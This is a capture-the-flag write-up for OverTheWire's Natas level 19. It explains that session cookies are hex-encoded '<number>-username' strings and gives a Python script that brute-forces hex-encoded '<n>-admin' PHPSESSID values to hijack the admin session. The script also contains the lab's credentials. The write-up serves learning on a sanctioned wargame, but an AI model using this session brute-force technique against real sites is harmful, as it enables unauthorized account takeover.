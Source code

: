 # This is a write-up for Natas - level 19

This challenge is quite similar to the previous one, so I won't repeat myself too much. Check that out in the parent folder.

## Solution
Immediately I notice the missing "view sourcecode" button. However, since the problem is similar to the previous one I go and have a look there.
Recalling my solution, I figure that PHPSESSID has to be a key part of the solution this time again.

I look at the PHPSESSID with inspect and see that it is a long string of numbers and letters.
It looks like hex, so I try to decrypt it on the site:

https://www.rapidtables.com/convert/number/hex-to-ascii.html

It does turn out to be hex! More specifically, the decrypted string is a number, a dash, and the username I entered.

This means I can probably brute-force the solution again! I just have to use "admin" as the username and try a bunch of different numbers.

Initially, I ran the script with the cookie format PHPSESSID: \<number\>-admin.

The sharp reader will notice that I am not using the correct format. I first need to encrypt this into hex!
This is quite easy to do in python with 'ord', which takes a character and returns its ascii code, and 'hex' which converts a number from decimal to hexadecimal.

I put together a quick function that encrypts an entire string using ord and hex. 

My guess was that the range of numbers would still be 640. If I was wrong, I could always brute force more numbers.

Here is the script:

```python 
import requests
from requests.auth import HTTPBasicAuth

basicAuth=HTTPBasicAuth('natas19', 'tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr')
headers = {'Content-Type': 'application/x-www-form-urlencoded'}

u="http://natas19.natas.labs.overthewire.org/index.php"

def hexencrypt(input_string):
    encrypted = ""
    for letter in input_string:
        # ord converts letter to its ascii code.
        # hex converts the ascii code to hex
        # the hex representation of each character begins with '0x' which we don't care about for this challenge
        # [2:] weeds out the first characters
        encrypted+=str(hex(ord(letter)))[2:]
    return encrypted

for i in range(1,641):
    id_in_hex=hexencrypt(str(i) + "-admin")
    payload = {"PHPSESSID": id_in_hex}
    # This line stores the response from the server
    response = requests.get(u, cookies=payload, headers=headers, auth=basicAuth, verify=False)
    # I print the cookie in its hex-form just out of curiosity
    print(i, id_in_hex)
    if "You are an admin" in response.text:
        print(response.text)
        print("the admins session id was:", i)
        break
```
